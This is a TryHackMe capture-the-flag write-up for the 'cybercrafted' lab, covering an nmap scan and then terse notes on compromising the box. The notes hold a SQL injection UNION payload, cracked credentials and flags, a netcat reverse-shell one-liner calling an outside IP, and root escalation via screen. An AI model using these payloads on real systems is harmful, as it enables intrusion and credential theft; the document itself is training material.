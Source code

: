 # #1 Introduction
<img width="650" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/8f965ab0-677e-4db0-9741-002c2469d6e2">

# #2 Nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx cybercrafted.thm
```

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- cybercrafted.thm
```

we got these open ports
```bash
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
25565/tcp open  minecraft Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

test' UNION SELECT 1,id,user,hash FROM admin;#

1 	xXUltimateCreeperXx 	88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01
4 	web_flag 	THM{bbe315906038c3a62d9b195001f75008}

xXUltimateCreeperXx:diamond123456789



rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6666 >/tmp/f


$db_host = "localhost";
$db_user = "root";
$db_pwd = "";
$db_name = "webapp";


ssh key password: creepin2006



we found password in /opt/minecraft/cybercrafted/plugins/LoginSystem/passwords.yml\
cybercrafted: dcbf543ee264e2d3a32c967d663e979e (JavaEdition>Bedrock)\
madrinch: 42f749ade7f9e195bf475f37a44cafcb (Password123)\

we could execute the screen command and create a new terminal with Ctrl + a and type 'c'\
so we now have a root shell
